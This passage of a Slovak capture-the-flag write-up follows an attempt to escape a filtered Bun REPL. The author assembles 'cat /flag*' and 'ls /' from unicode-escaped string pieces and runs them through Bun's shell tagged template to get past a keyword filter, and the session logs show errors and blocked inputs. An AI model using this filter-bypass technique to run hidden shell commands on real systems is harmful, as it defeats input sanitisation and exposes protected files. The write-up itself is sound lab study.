 Mal som lokálny docker, a hlási v stderr 

```
bun: command not found: cat /flag*
```

Skúsim to rozdeliť na dva stringy oddelené medzeou, síce to bude zrejmé to isté, ale už ma neprekvapí niekedy nič..

```
tasty-bun> $666=\u0042\u0075\u006e.$
[object Function]
tasty-bun> $1=`ca`
ca
tasty-bun> $1+=`t`
cat
tasty-bun> $2=`\u002f`
/
tasty-bun> $2+=`fl`
/fl
tasty-bun> $2+=`ag*`
/flag*
tasty-bun> $666`${$1} ${$1}`
🥞 Oops! The bun fell flat: ShellError: Failed with exit code 1
```

```
stderr: Buffer(41) [ 47, 98, 105, 110, 47, 99, 97, 116, 58, 32, 99, 97, 116, 58, 32, 78, 111, 32, 115, 117, 99, 104, 32, 102, 105, 108, 101, 32, 111, 114, 32, 100, 105, 114, 101, 99, 116, 111, 114, 121, 10 ]

/bin/cat: cat: No such file or directory
```

A neprekvapilo. To je zmena, cat už pozná, ale nevie prečítať vlajku... žeby Bun shell neakceptoval náhradné znaky?

Skúsim `ls /` ako `ls` a `/`

```
tasty-bun> $1=`ls`
ls
tasty-bun> $2=`\u002f`
/
tasty-bun> $666`${$1} ${$2}`
[object Object]
```

Vrátilo objekt... Chcel som ale print, tak budem potrebovat zavolat text(), ale bez zátvoriek. Malo by to fungovať aj s backtickom..

```
tasty-bun> $666`${$1} ${$2}`.text``
🍩 Sorry, we can't bake with these ingredients!
```

Ach jo.. musím nahradiť unicode verziou
